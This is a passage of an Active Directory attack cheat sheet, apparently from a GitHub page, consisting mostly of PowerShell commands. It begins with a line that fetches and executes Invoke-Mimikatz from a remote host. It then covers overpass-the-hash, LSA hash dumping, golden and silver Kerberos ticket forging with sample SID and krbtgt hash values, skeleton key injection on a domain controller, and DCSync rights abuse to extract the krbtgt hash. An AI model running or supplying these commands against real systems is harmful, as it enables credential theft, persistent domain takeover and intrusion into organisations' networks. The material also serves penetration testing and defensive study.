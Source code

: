 ```
# Execute Invoke-Mimikatz from computer xxx.xxx.xxx.xxx
iex (iwr http://xxx.xxx.xxx.xxx/Invoke-Mimikatz.ps1 -UseBasicParsing)                                           
# "Over pass the hash" generate tokens from hashes
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:corporate.corp.local /ntlm:x /run:powershell.exe"'
```

## Persistence



#### Golden Ticket



* **Invoke-Mimikatz:**

```
# Execute mimikatz on DC as DA to get hashes
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
# Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /krbtgt:0c88028bf3aa6a6a143ed846f2be1ea4 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Silver Ticket



* **Invoke-Mimikatz:**

```
# Silver Ticket for service HOST
Invoke-Mimikatz -Command '"kerberos::golden /domain:corporate.corp.local /sid:S-1-5-21-1324567831-1543786197-145643786 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:0c88028bf3aa6a6a143ed846f2be1ea4 /user:Administrator /ptt"'
```

#### Skeleton Key



* **Invoke-Mimikatz:**

```
# Command to inject a skeleton key
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'-ComputerName dcorp-dc.corporate.corp.local
```

#### DCSync



* **With PowerView and Invoke-Mimikatz:**

```
# Check if user01 has these permissions
Get-ObjectAcl -DistinguishedName "dc=corporate,dc=corp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "user01") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
# If you are a domain admin, you can grant this permissions to any user
Add-ObjectAcl -TargetDistinguishedName "dc=corporate,dc=corp,dc=local" -PrincipalSamAccountName user01 -Rights DCSync -Verbose
# Gets the hash of krbtgt
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
